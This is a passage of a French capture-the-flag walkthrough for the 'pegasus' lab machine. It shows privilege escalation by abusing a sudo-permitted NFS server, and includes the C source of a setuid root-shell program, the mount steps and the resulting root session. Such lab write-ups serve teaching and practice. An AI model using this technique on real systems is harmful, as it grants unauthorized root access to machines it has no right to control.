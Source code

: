 Enfiiiiin !

## Et vice et versa

Mais même combat avec l'utilisateur *John*, on est géné par ce SSH inutilisable.

L'utilisateur *John* est habilité à démarrer le serveur NFS :

```shellsession
john@pegasus:~$ sudo -l
Matching Defaults entries for john on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User john may run the following commands on this host:
    (root) NOPASSWD: /usr/local/sbin/nfs
```

Ce qu'on s'empresse de faire :

```shellsession
john@pegasus:~$ sudo /usr/local/sbin/nfs start
 * Exporting directories for NFS kernel daemon...                                                                                                                                                          [ OK ]
 * Starting NFS kernel daemon                                                                                                                                                                              [ OK ]
john@pegasus:~$ showmount -e 127.0.0.1
Export list for 127.0.0.1:
/opt/nfs *
```

La suite est très classique. Il faut écrire et compiler le programme C suivant :

```c
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(0, 0);
        setregid(0, 0);
        system("/bin/bash");
        return 0;
}
```

Ensuite on monte l'export NFS avec `mount 192.168.57.5:/mnt/nfs /mnt` puis on place notre exécutable dedans non sans lui avoir donné le bit setuid root.

A cause du SSH cassé il a fallut compiler le code sur la VM, le transférer vers ma machine via netcat, le recopier sur la VM via le NFS, bref une grosse prise de tête mais au final on y est :

```shellsession
john@pegasus:/tmp$ cd /opt/nfs/
john@pegasus:/opt/nfs$ ls -al
total 20K
drwxr-xr-x 2 root root 4.0K Dec  8 19:48 .
drwxr-xr-x 5 root root 4.0K Nov 18  2014 ..
-rwsr-xr-x 1 root root 7.1K Dec  8 19:48 rootshell
-rw-r--r-- 1 root root  127 Dec  8 19:42 rootshell.c

john@pegasus:/opt/nfs$ ./rootshell
root@pegasus:/opt/nfs# id
uid=0(root) gid=0(root) groups=0(root),1001(mike)
root@pegasus:/opt/nfs# cd /root
root@pegasus:/root# ls
flag
root@pegasus:/root# file flag
flag: ASCII English text
```